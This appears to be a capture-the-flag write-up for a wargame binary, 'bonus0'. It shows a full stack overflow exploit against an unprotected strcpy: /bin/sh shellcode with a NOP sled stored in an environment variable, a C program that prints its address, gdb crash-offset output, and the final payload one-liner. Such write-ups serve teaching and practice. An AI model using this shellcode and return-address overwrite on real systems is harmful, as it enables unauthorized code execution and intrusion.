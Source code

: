 By using gdb we can see strcpy is being used without any protection, so we can in theory abuse this function.

Here is the same shellcode as last time. Nothing can be used so we will find a way to segfault.
```
export SHELLCODE=$(python -c 'print("\x90" * 64 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')
``` 
Here a litle program to find the address of SHELLCODE in the env.
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    if (argc != 2) return 1;
    printf("%p\n", getenv(argv[1]));
    return 0;
}
```
`> gcc /tmp/exploit.c -o /tmp/exploit && /tmp/./exploit SHELLCODE`
> 0xbffff8c3

```gdb
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 -
aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJkkKKllLLmmMMnnNNooOOppPPqqQQrrRRssSSttTTuuUUvvVVwwWWxxXXyyYYzzZZ
 - 
aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJkkKKllLLmmMMnnNNooOOppPPqqQQrrRRssSSttTTuuUUvvVVwwWWxxXXyyYYzzZZ
aaAAbbBBccCCddDDeeEEaaAAbbBBccCCddDDeeEE aaAAbbBBccCCddDDeeEE

Program received signal SIGSEGV, Segmentation fault.
0x64434363 in ?? ()
```

0x64434363 = 'cCCd' witch is at position 9. The binary segfault at 9 char in the second input.

Before we get the flag, a quick explaination on why I will (and have) offset the shellcode with '\x90' (NOP). This is known as Nop sled and is used to prevent stack misalignment on top of wrong jump. Maybe the shellcode we created is not exactly where our little program tells us. By using NOP we ensure the correct behavior of our shellcode.

In the bonus binary, strchr is called to find a \n. We will used that to exploit.


`(python -c "print('\x90' * 4095 + '\n' + '\x90' * 9 + '\xbf\xff\xf8\xc3'[::-1] + '\x90' * 50)"; cat) | ./bonus0`
